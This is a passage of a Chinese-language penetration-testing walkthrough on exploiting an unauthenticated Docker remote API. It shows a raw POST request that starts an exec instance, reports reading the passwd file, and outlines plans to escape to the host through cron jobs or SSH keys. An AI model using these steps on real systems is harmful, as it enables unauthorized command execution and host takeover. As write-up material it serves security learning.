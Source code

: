 使用 burp 模拟 post 请求发包，得到返回的 id 参数。

![](images/format,png.jpeg)

3、启动 exec, 成功执行了系统命令，读取到了 passwd 文件。

```
POST /exec/<exec_id>/start HTTP/1.1
Host: <docker_host>:PORT
Content-Type: application/json
 
{
 "Detach": false,
 "Tty": false
}
```

![](images/format,png.jpeg)

成功获取到 docker 主机的命令执行权限，但是还无法逃逸到宿主机。  
尝试通过写计划任务或者写 ssh 密钥得到宿主机权限  
1、在容器内安装 Docker 作为 client（可能需要换国内源）

```
apt-get install docker.io
```
